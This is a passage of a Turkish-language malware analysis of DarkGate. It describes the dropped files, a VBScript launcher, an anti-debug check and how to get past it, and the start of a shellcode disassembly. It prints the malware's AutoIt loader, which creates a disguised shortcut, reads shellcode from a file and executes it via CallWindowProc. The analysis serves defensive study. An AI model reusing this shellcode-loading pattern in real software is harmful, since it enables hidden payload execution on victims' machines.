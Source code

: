 ```vb
Set objShell = CreateObject("Shell.Application")
objShell.ShellExecute appdatapath+"\AutoIt3.exe", "test.au3", appdatapath, "open", 0
```

Özet olarak baktığımızda script 4 adet dosyayı C:\<Computer_Name>\ klasörüne çıkartmakta. Bunların isimleri "AutoIt3.exe", "test.au3", "pe.bin" ve "shell.txt"

- "AutoIt3.exe": au3 scriptlerini çalıştıran normal bir auto it uygulaması.
- "test.au3": Auto it üzerinde çalışan script dosyası.
- "pe.bin": DarkGate malwarenin en son çalıştığı pe dosyası.
- "shell.txt": pe.bin dosyasını loadlamayı sağlayan verileri içeren shell code parçacığı.

[========]

Autoit3.exe dosyasını x64dbg ile çalıştırıp incelemeyi denediğimizde ilk başta debug ortamında çalışmadığını ileten bir mesaj ile karşılaşıyoruz. Basit bir anti-debug tekniği ile kontrol sağlandığını görebiliyoruz. `IsDebuggerPresent` apisi kullanılarak debug altında çalışıp çalışmadığını kontrol ediliyor bu yöntem ise PEB üzerinden yada IsDebuggerPresent apisinin dönen değerini değişerek atlatılabilir.

Debug kontrolünü geçtikten sonra au3 scriptinin içerisinde aşağıdaki satırları görüyoruz:

```
#NoTrayIcon
FileCreateShortcut ( @AutoItExe,'C:\' & @ComputerName & '\bill.lnk' ,'C:\' & @ComputerName , "test.au3" , "" , "C:\Windows\System32\Mycomput.dll" , "" , 2 , "")

$ced = FileRead('C:\' & @ComputerName & '\shell.txt')

$pt = DLLStructCreate("byte[" & BinaryLen($ced) & "]")

DllStructSetData($pt, 1, $ced)

DllCall("user32.dll", "lresult", "CallWindowProc", "ptr", DllStructGetPtr($pt), "hwnd", 0, "uint", 0, "wparam", 0, "lparam", 0)

```

İlk satıra baktığımızda kolaylıkla Autoit3.exe si üzerinde scripti çalıştıran bilgisayar simgesi ile aynı simgeye sahip bir kısayolu aynı klasör üzerinde oluşturulduğunu görüyoruz.

Bununla beraber shell.txt içerisindeki shell kodunun memorye aktarıldığı ve CallWindowProc apisi ile bu kodun çalıştırıldığını görüyoruz. 

Shell code kısmının ne yaptığını görmek için CallWindowProc apisine breakpoint bırakalım daha sonrasında ilk parametrenin (32 bit x86 asm için stack pointer + 4 memory adresindeki değer) shell code adresine ait olduğunu görebiliyoruz. 

Shell code başlangıç adresine breakpoint atıp çalıştırdığımızda bizi aşağıdaki gibi bir assembly dizini karşılıyor:

    push ebp
    mov ebp,esp
    push eax
    mov eax,E9
    add esp,FFFFF004
    push eax
    dec eax
    jne 13F5011
    mov eax,dword ptr ss:[ebp-4]
    add esp,FFFFFFE4
    lea eax,dword ptr ss:[ebp-E8CF7]
    lea edx,dword ptr ss:[ebp-E9020]
    mov byte ptr ds:[edx],55
    mov byte ptr ds:[edx+1],8B
    mov byte ptr ds:[edx+2],EC
    mov byte ptr ds:[edx+3],83
    mov byte ptr ds:[edx+4],C4